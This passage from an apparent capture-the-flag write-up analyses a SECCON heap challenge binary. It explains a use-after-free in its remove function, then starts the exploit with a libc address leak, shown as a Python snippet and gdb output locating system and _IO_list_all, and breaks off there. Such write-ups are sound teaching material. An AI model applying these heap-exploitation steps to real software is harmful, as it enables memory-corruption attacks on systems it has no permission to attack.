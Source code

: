 ![img1](https://github.com/xerof4ks/heapwn/blob/master/SECCON/img/add_key.png)

![img2](https://github.com/xerof4ks/heapwn/blob/master/SECCON/img/add_key2.png)

#### ~ Edit

By choosing `edit` we can edit the `key` member of the struct. `edit` uses `malloc_usable_size` which internally calls `musable`,
on the current chunk in order to extract its size, then subtracts **0x20** from it and finally calls `getnline` which will read 
in the new key.

![img3](https://github.com/xerof4ks/heapwn/blob/master/SECCON/img/edit_key.png)

#### ~ Remove

`Remove` free's **only** the malloc pointer, it doesn't zero out the entry in the chunk array. However, it does zero out the byte
value in the bytearray. There is definitely a way to create a double-free scenario via this indirect UAF but I didn't pursue this
path towards exploiting the binary. 

![img4](https://github.com/xerof4ks/heapwn/blob/master/SECCON/img/remove_key.png)

### Exploit Analysis

Now that we've established how the binary works, let's get to pwning. First things first, info leak.

#### ~ Libc Leak

In case we want to change the master pass, we have to enter the previous account name in order to be prompted with a new input. 
However, because of the fact that `read` doesn't null terminate strings, we can get a leak out of it. Specifically, if we enter
the wrong account name, the binary will just print whatever we entered.

![leak](https://github.com/xerof4ks/heapwn/blob/master/SECCON/img/leak.png)

```python
acc    = "kek"
key    = "lel"
reg(acc, key)

# Leak libc
libc   = leak('A'*0x18) - 0x3c5620
```

```
gdb-peda$ x/4gx $rax
0x7fffffffe3a0:	0x4141414141414141	0x4141414141414141
0x7fffffffe3b0:	0x4141414141414141	0x00007ffff7dd2620
gdb-peda$ x 0x00007ffff7dd2620
0x7ffff7dd2620 <_IO_2_1_stdout_>:	0x00000000fbad2887

[+] Libc:         0x7ffff7a0d000
[+] _IO_list_all: 0x7ffff7dd2520
[+] system:       0x7ffff7a52390
```
